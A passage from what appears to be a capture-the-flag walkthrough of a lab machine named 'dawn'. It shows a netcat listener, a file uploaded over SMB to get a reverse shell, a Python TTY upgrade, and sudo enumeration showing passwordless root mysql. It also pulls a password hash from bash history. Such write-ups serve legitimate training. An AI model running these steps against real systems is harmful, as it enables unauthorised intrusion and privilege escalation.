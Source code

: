 ``` bash
sudo nc -lvnp 80
```

I am now ready to upload the file. I connect to the share.

``` bash
smbclient //192.168.1.165/ITDEPT
```

Then I upload the file.
``` bash
    smb: \> put product-control
```

# Initial Compromise 

I got a response and now have a shell as the user dawn. The initial access has been gained. It is now time to escalate privileges. First, I spawn a tty shell using python.

``` bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now I can see what commands this user can run as root. Sudo -l gives
that information. The output is as follows:
```bash
sudo -l  
Matching Defaults entries for dawn on dawn:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
    
User dawn may run the following commands on dawn:  
   (root) NOPASSWD: /usr/bin/mysql  
```
Dawn can run the MySQL command as root without entering the user\'s
password. A useful website called
[GTFObins](https://gtfobins.github.io/) explains how to use these permissions to
gain a root shell. Unfortunately, I need the password of the root user
of the MySQL database. Luckily there is hope. The bash history file
contains a history of commands ran by the user and there is a chance the
password needed to login into MySQL is there. The relevant parts to the
history file are included below.

``` bash
echo "$1$$bOKpT2ijO.XcGlpjgAup9/"  
sudo -l    
su    
sudo -l    
sudo mysql -u root -p   
```

The echoed command appears to contain the hashed password needed to log
into the MySQL database as root. This hash likely could be cracked.
Since there are multiple paths to root, and cracking the hack would take
time, I will elect to find an easier way to escalate privileges.
